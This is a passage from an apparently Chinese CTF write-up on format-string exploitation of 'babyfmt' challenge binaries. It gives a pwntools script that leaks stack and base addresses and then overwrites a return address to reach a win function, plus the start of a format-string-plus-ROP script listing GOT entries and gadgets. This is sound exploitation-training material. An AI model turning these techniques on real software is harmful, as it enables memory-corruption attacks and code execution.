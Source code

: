 ```python
```

## 3.3 fmt在栈上，二次printf改ret值<br>
**核心思路，利用第一次printf先打泄露栈地址的值和程序基址；利用第二次printf修改ret值，完成利用**<br>
```python
from pwn import *
context.log_level='debug'
context.os='linux'
context.arch='amd64'
context.terminal=['tmux','splitw','-h']

binary_path = './babyfmt_level8.1'
p = process(binary_path)
binary = p.elf

#gdb.attach(p,"b *$rebase(0x149C)")
#pause()

p.recvuntil(b"Have fun!\n")
payload = b"%7$p\n%157$p"
p.send(payload)
p.recvuntil(b"Your input is:        \n")
stack_addr = int(p.recvline().strip(b"\n"),16)
ret_addr = stack_addr + 0x3f9+8
log.success(hex(ret_addr))
program_addr = int(p.recv(14).strip(b"\n"),16)-0x1622
log.success(hex(program_addr))
win_func = (program_addr + 0x1350)&0xffff


payload = b"%*32$c%31$hn".ljust(17,b"a")+p64(ret_addr)+p64(win_func-23)
p.send(payload)

p.interactive()
```

## 3.4 fmt+rop<br>
这也是一个有难度的点<br>
```python
from pwn import *
context.log_level='debug'
context.os='linux'
context.arch='amd64'
#context.terminal=['tmux','splitw','-h']

#libc_path = "./libc-2.31.so"
#binary_path = './babyfmt_level10.1'
libc_path = "/lib/x86_64-linux-gnu/libc.so.6"
binary_path = "/challenge/babyfmt_level10.1"
p = process(binary_path)
binary = p.elf
libc = ELF(libc_path)

exit_got = 0x404068
loop_addr = 0x4012BD
memset_got = 0x404048
pop_rsi_r15_ret = 0x00000000004015a1
pop_rdi_ret = 0x00000000004015a3
leave_ret = 0x000000000040153e

#gdb.attach(p,"b *0x4013B6\n")
#pause()
```